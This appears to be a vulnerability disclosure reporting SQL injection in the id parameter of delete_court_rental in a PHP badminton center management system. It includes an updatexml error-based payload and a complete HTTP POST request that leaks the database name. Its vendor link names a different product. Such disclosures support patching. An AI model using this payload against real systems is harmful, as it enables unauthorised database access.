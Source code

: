 # badminton-center-management-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Date: 2022-05-06

Vulnerability File: /bcms/classes/Master.php?f=delete_court_rental

Vulnerability location: /bcms/classes/Master.php?f=delete_court_rental, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /bcms/classes/Master.php?f=delete_court_rental HTTP/1.1
Host: bcms.com
Proxy-Connection: keep-alive
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://bcms.com
Referer: http://bcms.com/bcms/admin/?page=court_rentals
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4gth9auqof3f53e4gedjm3dct2

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](D:\桌面\动画.gif)